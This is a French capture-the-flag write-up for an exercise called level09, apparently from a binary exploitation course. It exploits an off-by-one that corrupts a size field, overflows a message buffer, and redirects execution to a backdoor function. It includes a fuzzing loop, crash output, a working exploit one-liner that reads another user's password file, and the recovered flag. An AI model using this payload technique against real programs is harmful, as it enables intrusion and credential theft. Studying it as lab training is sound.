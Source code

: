 ### level09

Arrivés à cet exercice, nous remarquons très vite la fonction ``secret_backdoor`` présente dans le code.
Dedans, nous retrouvons une fonction system, qui va nous permettre d'exécuter une commande bash.
Si nous recherchons l'adresse de cette secret_backdoor avec gdb, nous retrouvons ceci :

```bash
objdump -t level09 | grep secret
000000000000088c g     F .text	0000000000000034              secret_backdoor
```

L'adresse est donc 0x88c. Cette adresse est très courte, car il s'agit d'une adresse relative.

Afin de la recalculer, nous allons rechercher l'adresse de départ du code :
l'adresse de départ du code est la suivante : 0x555555554000

Pour récupérer l'adresse absolue, nous devons donc faire : ``<adresse de base> + <adresse relative> = <adresse absolue>``
Nous avons donc

```bash 0x555555554000 + 0x88c = 0x55555555488c ```

Nous avons aussi une structure présente dans le code :

```c
typedef struct  s_msg {
    char        message[140];
    char        username[40];
    int         size;
}               t_msg;
```

L'inconvénient des structures est que toutes les valeurs sont les unes derrière les autres dans la mémoire, donc en cas de dépassement de capacité (overflow), nous pourrons écrire dans les données qui suivent. Dans le programme, lors du remplissage du username, nous pouvons voir cette boucle for :

```c
for (int i = 0; i <= 40 && s[i]; i++)
    msg->username[i] = s[i];
```

Le problème étant que le username ne possède que 40 emplacements mémoire (0 à 39), or ici nous remplissons jusqu'au 41ème emplacement (0 à 40). Si nous écrivons quelque chose dans le 40ème emplacement, nous allons donc écrire dans le size de la structure.

La fonction strncpy va écrire le nombre de caractères qui sera saisi dans cet overflow :

```c
strncpy(msg->message, s, msg->size);
```

Nous allons exécuter un petit script afin de savoir si cela peut provoquer un segfault après une certaine valeur.

```bash
for i in {0..300}; do val=$(printf "%x" $i); (python -c "print('A' * 40) + '\x$val'") | ./level09 ; echo $i; echo $val; done
```

Ce qui nous donne ce resultat:

```bash
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
200
c8
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
201
c9
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
202
ca
```

Après une taille (size) de 200, le programme se met donc à segfault. Nous allons donc chercher à remplir avec l'adresse de notre fameuse backdoor. Comme nous allons insérer 8 caractères avec l'adresse de la fonction, nous allons donc écrire 208 caractères (soit \xd0).

```bash
(python -c "print('A' * 40 + '\xd0' + '\n' + 'B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"; python -c "print('cat /home/users/end/.pass')") | ./level09
```

Et nous retrouvons ce résultat final :

```bash
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```